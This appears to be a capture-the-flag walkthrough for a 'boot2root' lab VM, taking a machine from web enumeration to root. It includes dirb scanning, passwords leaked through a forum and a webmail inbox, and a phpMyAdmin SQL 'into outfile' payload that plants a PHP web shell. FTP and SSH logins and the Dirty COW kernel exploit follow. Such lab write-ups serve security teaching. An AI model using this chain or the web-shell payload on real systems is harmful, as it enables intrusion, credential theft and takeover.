 -------------------------------------------------------------------------------

# The following method describes a Race Condition Privilege Escalation

-------------------------------------------------------------------------------

## First we need to find the IP address of the VM

* Refer to writeup1

## Secondly we are looking for credentials.

* We use a software call Drib to scrap some of the most common url of the website.

```
git clone https://github.com/v0re/dirb.git
./dirb https://[YOUR IP]/ wordlists/common.txt

---- Scanning URL: https://10.12.1.150/ ----
+ https://10.12.1.150/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: https://10.12.1.150/forum/
==> DIRECTORY: https://10.12.1.150/phpmyadmin/
+ https://10.12.1.150/server-status (CODE:403|SIZE:293)
==> DIRECTORY: https://10.12.1.150/webmail/
```
### Forum

* After sneaking around and read all the forum post, we find a clue on the post "Probleme login ?" url = https://10.12.1.150/forum/index.php?id=6

* If your look for ```Failed password``` your will find one where the user is ``` !q\]Ej?*5K5cy*AJ``` and we think that the user who tried to login make a mistake between are password and login

![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.05.14%20AM.png)

* The post was made by lmezard (Laurie Mezard)

* Conclution we have one of the password of lmezard.

### Webmail

* On the webmail we have a login form, and we just find a password in the forum section so we decided to give it a try.

![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.04.21%20AM.png)

* After several attempts the combination was
* Login: ```laurie@borntosec.net```
* Password: ```!q\]Ej?*5K5cy*AJ```

* When we logged in , we find a email with the subject ```DB Access```


![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.06.32%20AM.png)

* Login: ```root```
* Password: ```Fg-'kKXBj87E:aJ$```
* we really suspect in the access for a DB

### Phpmyadmin

* We tried the credentials of the email to login phpmyadmin and it worcks :)
* After some research on the web we stumble on this [aritcle](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)
* The injection sql we are looking for is:
```select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output  ?>" into outfile "/var/www/forum/templates_c/endTest0.php"```
* Copy past this line and go to to => https://10.12.1.150/phpmyadmin/index.php on the sql tab
* After this step your just need to go to https://10.12.1.150/forum/templates_c/endTest0.php
* You will find ```lmezard:G!@M6f4Eatau{sF"```
* Login: ```lmezard```
* Password: ```G!@M6f4Eatau{sF"```

## Use the credentials

* Now we got the password of the server, we can try to log on the FTP service
* ftp [YOUR-IP-ADDRESS]
* login with  ```lmezard``` ```G!@M6f4Eatau{sF"```
* get the fun file, see example bellow:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||25027|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||7488|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |****************************************************************************************************************************************|   790 KiB  127.07 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (120.03 MiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||44244|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp>
```

## Using the fun file

* Refer to writeup1, step 2
* ssh login: laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

## ssh connection
* use  ``ssh laurie@10.12.1.150`` add the password when it's ask

## Race Condition Privilege Escalation
* YES!!!! we are on the serveur ! know we need to get information about the os
* kernel verions : ```uname -r``` => 3.2.0-91-generic-pae
* Distrubition name and verisons ```cat /etc/*-release``` => Ubuntu, 12.04

* After having information on what we where working on we did some research on [EXPLOIT DATABASE](https://www.exploit-db.com)
* We find the "Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)"
* go to https://www.exploit-db.com/exploits/40839/ and Copy the script
* ```gcc -pthread dirty.c -o dirty -lcrypt && ./dirty```
* add a password, example: 12345
* ```su firefart``` use your password

# GG Your root !
